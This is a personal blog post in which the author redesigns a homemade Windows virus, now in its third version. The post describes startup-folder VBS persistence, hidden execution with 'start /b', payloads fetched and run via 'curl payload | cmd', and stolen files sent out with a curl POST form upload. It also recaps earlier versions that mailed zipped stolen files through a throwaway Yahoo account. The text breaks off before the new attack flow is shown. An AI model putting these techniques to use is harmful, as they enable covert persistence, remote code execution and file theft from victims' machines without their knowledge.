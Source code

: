 
Some more time has passed away. Now it's 4 months since the debut of version 2 and I have been messing around with even more stuff and pretty much notice that I was complicate things wayyyy too much in the previous 2 versions, and that I have sort of fallen into several traps: designing a thing that shouldn't exist (aka subsystem optimization) and trying to control something that I don't understand. So, let's talk about it.

Version 3 pretty much has no similarity with the previous 2. Let's get that right out in the open. So, this is an opportunity to rewrite and rethink everything. But again, some of the ideas in the previous versions still have their merits. To reiterate, our virus should have 2 components: a base directory to rest within and a vbs script inside the startup folder to restart the virus every time the host computer restarts. Once the main script in the startup folder has been started, it wil download additional scripts from our website, then execute those and send the results back. From the second version, it's apparent that we need some sort of application to control all of these influx of data. If not then we will have to deal with the intricacies of the virus itself, and managing all the raw code is unpleasant at best, and a complete waste of time and evergy at worst.

But what's wrong with the previous versions? Let's start with version 1. There's this H.vbs file, which is supposed to run other batch scripts secretly and the batch code can sort of invoke that script to do that. There's this C.bat and C.txt, all to serve the purpose of counting how many cycles of shutdown and startup has taken place, to know when to download and when to mail the results back. D.bat is to download files, which actually invokes a PowerShell command to download it underneath. Z.vbs is a vbs script to zip the output folder, so we can sort of steal any files that we want via the S.vbs script. It is used to talk to yahoo's mail servers, authenticate a mail account we specifically created just to send the results out. On the core side of it, there's that SU.vbs that sits inside the startup folder, which will call SU.bat in the home folder, which will invoke D.bat or M3.bat depending on the count cycle number.

Now this is just too much going on, and there're fucking tight couplings in there. Scripts are expected to be there and to call each other in a convoluted way. Why are there 2 files in charge for only keeping track of which cycle it is? Why is there a separate D.bat? Some of these problems are solved in version 2, and that it sort of make the cycle from 4 days to 2 days per attack, and it cleans up things a bit, like merging D.bat into the home directory's entry point itself. Version 2 also has that nice little GUI, with a lot of tools there to interpret the results sent back, like turning a list of files into a json format, which then can be compared and merged with other directory structures. It also has this sort of quasi "compiler" as a quality of life means to further developing the virus, in particular, the init file so that I don't have to keep escaping the god damn quotes and dots and whatnot.

Overtime, I sort of have fallen into the trap of optimizing something that shouldn't exist, and I sort of haven't stared closely into this enough to realize that so much of this is unnecessary. And as I read more, it seems like there is a possibility to rethink all of this. So, let's now throw away stuff that shouldn't exist, shall we?

So, the concept of counting cycles of shutdown and startup, should we keep it? No. Why should we even keep track of it at all. Why shouldn't we just download and execute the payload, and then zip everything up and sending back the results. Why did we included the concept in the first place? Well, because I was afraid that there would be some hassle in downloading the script. It is because whenever I invoke the download command, it starts up a new process, and I can never quite know when the download has succeeded or not. So, wait until the next startup cycle seems to be a good idea.

To throw away that worry, we sort of have to use another tool that's synchronous with our virus thread. One day, when I was learning about docker, I saw someone just do "curl get.docker.com \| sh" to install docker. What this does is take the script in raw text that's on the docker website and pipes it into a shell. What struck me about this is 2 things: The command to install was insanely short. With it, the convenience to install also went through the roof. The other thing is that I don't have to worry about escape characters. In the original virus, the init script echos commands into files, and thus, those commands must be escaped in order for this to work. Now, I can just curl it and redirect that into another file with no hassle at all. It's a wonderful thing. So from now on, we can just curl the payload and execute it right away, using "curl payload \| cmd". Curl is also synchronous, so we have control over timing.

When we don't have to worry about escape characters, then we can essentially get rid of the compiling process altogether. Why compile when the initial reason to compile is to escape the characters? Why can't we just curl every additional scripts and that's pretty much it? Well, let's do that then. Next is the concept of zipping files. Why do we need this? To steal files, of course. How else would you do this instead of putting stolen files inside a folder, zipping it and sending an email back? Well, it sort of seems that I can send requests with files attached, because I can send my files over messenger or gmail. And while building version 2, I actually implemented that with the zipped directory structure. Let's see if we can do this... looking through curl's manual..... Yes we can! We can actually do something like 'curl -X POST --form "file=@filename.ext" url'. Woah great. Let's get rid of Z.vbs and S.vbs then.

How about H.vbs? Can we get rid of it? Can we start a new batch script from a batch script that will be hidden? Yes we can! "start /b script" does our job just as we wanted to. So, executing a batch script now looks like "start /b batchfile", and executing batch code now looks like "start /b cmd.exe /c code". We still need to start the first batch script hidden though, and this is sort of a limitation that I can't find a solution to. But, we can start the first batch script using vbs from startup, no problem at all, and H.vbs originally is just there so we can start other batch scripts. So, let's get rid of that too.

All of these might seem unnatural. Like, if you have not known about "curl" or "start", would you be able to still have this mental model and this idea? Well yes you can. When I built the first virus, I was thinking of a clear path to my goal, with the tools that I already know, then just sort of execute that goal and figure out the intricacies. A few weeks ago, I started think hard about how to get rid of stuff in version 1 and 2, and just google the capabilities that I want. Googling returns pretty much exactly what I wanted so I started working toward this version.

With these improvements, how does the attacking process looks like now?


